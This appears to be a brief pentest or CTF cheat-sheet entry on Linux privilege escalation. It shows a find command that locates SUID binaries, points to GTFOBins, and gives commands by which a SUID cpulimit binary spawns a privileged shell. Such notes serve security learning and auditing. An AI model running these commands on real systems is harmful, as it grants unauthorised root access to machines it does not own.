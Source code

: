 Command:

`find / -type f -perm -u=s 2>/dev/null`

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

Here you want to see if there are any SUID based exploit for any found binary.

example:

```
$ find / -type f -perm -u=s 2>/dev/null
.......
/usr/bin/cpulimit
.......
```
https://gtfobins.github.io/gtfobins/cpulimit/#suid

```
sudo install -m =xs $(which cpulimit) .

./cpulimit -l 100 -f -- /bin/sh -p
```

If cpulimit is exploitable, you could install or exploit through existing binary.

